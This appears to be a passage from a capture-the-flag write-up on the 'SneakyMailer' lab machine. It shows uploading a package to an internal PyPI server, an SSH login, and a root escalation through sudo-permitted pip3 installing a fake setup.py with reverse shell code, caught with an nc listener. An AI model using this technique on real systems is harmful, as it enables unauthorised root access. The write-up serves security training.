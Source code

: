 ```bash
Writing jib1337-1.337/setup.cfg
Creating tar archive
removing 'jib1337-1.337' (and everything under it)
running register
Registering jib1337 to http://pypi.sneakycorp.htb:8080
Server response (200): OK
running upload
Submitting dist/jib1337-1.337.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
```
I can then try logging in over SSH.
```bash
kali@kali:~/.ssh$ ssh -i id_rsa low@sneakycorp.htb
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Jul 21 04:17:42 2020 from 10.10.15.51
low@sneakymailer:~$ cat user.txt
```

### 12. Look at permissions
During my early enumeration I do a sudo -l.
```bash
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```
The user can run pip3 as root. I already know pip3 is the package manager for pip3, and performs similar functions as pypi. I figured it could probably install custom packages as well, probably also using custom setup scripts. So the path here was probably similar to what I just did earlier. A bit of light googling confirms that pip3 can indeed run packages with setup.py. So now I just have to craft a new setup.py.

### 13. Elevate priliges
Firstly I create a setup.py script (see setup.py). This can be a lot simpler as I only need to execute /bin/bash as root, and I'm not so concerned about the setup failing to execute. On github I found a fake setup.py file with the reverse shell code all ready to go: https://github.com/0x00-0x00/FakePip.  
I start a listener on my machine and execute the command to install the package with pip3 as root.
```bash
low@sneakymailer:~/.local/share/nano/.config/.cgf$ sudo pip3 install .
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /home/low/.local/share/nano/.config/.cgf
Building wheels for collected packages: FakePip
  Running setup.py bdist_wheel for FakePip ... -
```
Catch the shell.
```bash
ali@kali:~$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on sneakycorp.htb 33980
root@sneakymailer:/tmp/pip-req-build-k_4omm3o# whoami
whoami
```